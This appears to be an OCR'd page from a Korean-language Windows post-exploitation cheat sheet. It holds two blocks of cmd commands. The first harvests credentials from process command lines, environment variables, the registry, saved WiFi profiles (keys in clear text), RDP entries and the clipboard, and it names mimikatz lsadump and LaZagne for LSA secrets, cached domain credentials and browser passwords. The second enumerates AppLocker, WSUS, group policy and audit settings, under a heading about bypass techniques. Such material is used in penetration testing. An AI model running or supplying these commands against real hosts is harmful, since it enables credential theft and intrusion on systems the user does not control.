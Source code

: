 ### ⚡ 프로세스 및 메모리에서 자격 증명

```cmd
:: 1. 실행 중인 프로세스의 명령줄 인수 (패스워드 포함 가능)
wmic process get name,processid,commandline | findstr /i "password\|pass\|pwd"

:: 2. 환경 변수에서 패스워드 검색
set | findstr /i "password\|pass\|pwd\|key\|secret"

:: 3. 메모리 덤프에서 자격 증명 (도구 필요)
:: procdump, mimikatz 등 사용

:: 4. 레지스트리 전체에서 패스워드 검색
reg query HKLM /f password /t REG_SZ /s 2>nul | findstr /i password
reg query HKCU /f password /t REG_SZ /s 2>nul | findstr /i password

:: 5. 서비스 계정 패스워드 (LSA Secrets)
:: mimikatz "lsadump::secrets" 필요

:: 6. 캐시된 도메인 자격 증명
:: mimikatz "lsadump::cache" 필요

:: 7. 브라우저 저장된 패스워드
:: LaZagne, WebBrowserPassView 등 도구 사용

:: 8. WiFi 저장된 패스워드
netsh wlan show profiles
netsh wlan show profile name="WiFiName" key=clear

:: 9. RDP 저장된 자격 증명
reg query "HKCU\SOFTWARE\Microsoft\Terminal Server Client\Servers"
cmdkey /list | findstr "Target"

:: 10. 클립보드 내용 (가끔 패스워드 복사되어 있음)
powershell "Get-Clipboard" 2>nul
```

### 🔧 고급 설정 오류 및 우회 기법

```cmd
:: 1. AppLocker 정책 확인
reg query "HKLM\SOFTWARE\Policies\Microsoft\Windows\SrpV2"
powershell "Get-AppLockerPolicy -Effective" 2>nul

:: 2. 소프트웨어 제한 정책
reg query "HKLM\SOFTWARE\Policies\Microsoft\Windows\Safer\CodeIdentifiers"

:: 3. WSUS 설정 (업데이트 서버 조작 가능)
reg query "HKLM\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate"

:: 4. 그룹 정책 설정 확인
gpresult /r
gpresult /z > gp_report.txt

:: 5. 로컬 보안 정책
secedit /export /cfg security_config.txt
type security_config.txt | findstr "PasswordComplexity\|MinimumPasswordLength"

:: 6. 감사 정책 (로깅 설정)
auditpol /get /category:*

:: 7. 사용자 권한 할당 정책
whoami /priv
secedit /export /areas USER_RIGHTS /cfg user_rights.txt
```